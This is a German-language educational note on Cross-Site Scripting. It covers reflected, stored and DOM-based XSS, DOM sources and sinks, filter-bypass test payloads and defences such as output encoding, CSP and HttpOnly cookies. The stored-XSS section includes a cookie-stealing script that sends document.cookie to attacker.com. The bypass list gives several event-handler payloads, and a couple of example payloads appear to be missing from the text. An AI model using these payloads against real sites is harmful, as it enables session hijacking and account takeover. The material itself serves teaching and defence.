

---
tags:
  - Security
  - Vulnerability
  - Web Security
  - Client-Side
  - XSS
  - OWASP
---

# Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** ist eine clientseitige Sicherheitslücke, bei der ein Angreifer schädliches JavaScript in eine legitime Webanwendung einschleust. Der Code wird anschließend im Browser anderer Benutzer ausgeführt.

---

## Warum ist XSS so gefährlich?

JavaScript hat im Browser vollen Zugriff auf das Document Object Model (DOM) und die Sitzung des Benutzers:
- **Session Hijacking:** Auslesen von Session-Cookies (`document.cookie`) und Senden an einen Server des Angreifers (sofern nicht durch das Flag `HttpOnly` geschützt).
- **Aktionen im Namen des Opfers:** Durchführen von Überweisungen, Passwortänderungen oder dem Löschen von Konten über die aktive Browsersitzung.
- **Credential Harvesting / Phishing:** Einblenden gefälschter Login-Masken direkt über der echten Seite.
- **Keylogging:** Protokollieren von Tastaturanschlägen des Benutzers.

---

## Die drei Hauptarten von XSS



### 1. Reflected XSS (Reflektiertes XSS)
Der Schadcode stammt aus dem aktuellen HTTP-Request (z. B. aus einem URL-Parameter) und wird vom Server **ohne ausreichende Bereinigung oder Maskierung direkt in die HTML-Antwort eingebettet**.

*Beispiel:*
Ein Suchfeld reflektiert die Eingabe:
```html
<!-- URL: https://example.com/search?q=<script>alert(1)</script> -->
<p>Suchergebnisse für: <script>alert(1)</script></p>
```
*Vektor:* Das Opfer muss auf einen präparierten Link des Angreifers klicken.

---

### 2. Stored XSS (Persistentes XSS)
Die gefährlichste Form: Der Payload wird **dauerhaft auf dem Server gespeichert** (z. B. in einer Datenbank bei Forenbeiträgen, Benutzerprofilen, Kommentaren oder Rechnungsadressen).

Jeder Benutzer, der die betroffene Seite aufruft, führt den Schadcode automatisch aus, ohne auf einen speziellen Link klicken zu müssen.

*Ablauf:*
1. Angreifer postet Kommentar: `<script>fetch('http://attacker.com/steal?c=' + document.cookie)</script>`
2. Datenbank speichert den Kommentar.
3. Opfer besucht die Seite $\to$ Browser lädt den Kommentar und führt das Skript im Kontext des Opfers aus.

---

### 3. DOM-based XSS
Die Schwachstelle liegt nicht im Server-Code, sondern vollständig im **clientseitigen JavaScript** des Browsers.

Das Skript liest Daten aus einer unsicheren Quelle (*Source*) und übergibt sie an eine Ausführungsfunktion (*Sink*), ohne sie zu validieren.

| Typ | Typische Beispiele |
| :--- | :--- |
| **Sources (Quellen)** | `location.search`, `location.hash`, `document.referrer`, `window.name`, `document.cookie` |
| **Sinks (Senken)** | `innerHTML`, `outerHTML`, `document.write()`, `eval()`, `setTimeout()`, `location.href` |

*Beispiel:*
```javascript
// Unsicherer Client-Code:
const params = new URLSearchParams(window.location.search);
const user = params.get("user");
document.getElementById("greeting").innerHTML = "Hallo " + user;
```
Wird die URL mit `?user=` aufgerufen, interpretiert `innerHTML` den String als HTML und feuert den `onerror`-Handler.

---

## Typische Test-Payloads (Polyglots & Filter Bypasses)

Moderne WAFs filtern oft das Wort `<script>`. Angreifer nutzen alternative HTML-Elemente und Event-Handler:

```html
<!-- 1. Klassisches Image Event -->


<!-- 2. SVG Vector (funktioniert oft, wenn Bilder gefiltert werden) -->
<svg onload="alert(1)">

<!-- 3. Fokus- und Autofokus-Events -->
<input autofocus onfocus="alert(1)">

<!-- 4. JavaScript URI in Links -->
<a href="javascript:alert(1)">Klick mich</a>

<!-- 5. Ausbrechen aus HTML-Attributen -->
" onmouseover="alert(1)" x="
```

---

## Abwehrmaßnahmen & Best Practices

1. **Context-Aware Output Encoding (Kontextsensitives Maskieren):**
   - Wenn Benutzereingaben in HTML gerendert werden, müssen Sonderzeichen wie `<`, `>`, `&`, `"`, `'` in ihre HTML-Entities (`&lt;`, `&gt;`, `&amp;`) umgewandelt werden.
2. **Sichere DOM-APIs nutzen:**
   - Statt `element.innerHTML` immer `element.textContent` verwenden (behandelt Eingaben strikt als Text, nicht als HTML-Markup).
3. **Content Security Policy (CSP):**
   - HTTP-Header, der einschränkt, von welchen Quellen Skripte geladen werden dürfen und Inline-Skripte (`<script>alert(1)</script>`) per Default verbietet:
     `Content-Security-Policy: default-src 'self'; script-src 'self' https://trustedscripts.com;`
4. **Cookie Flag `HttpOnly`:**
   - Verhindert, dass JavaScript über `document.cookie` auf Authentifizierungs-Cookies zugreifen kann (mindert den Impact bei erfolgreichem XSS deutlich).
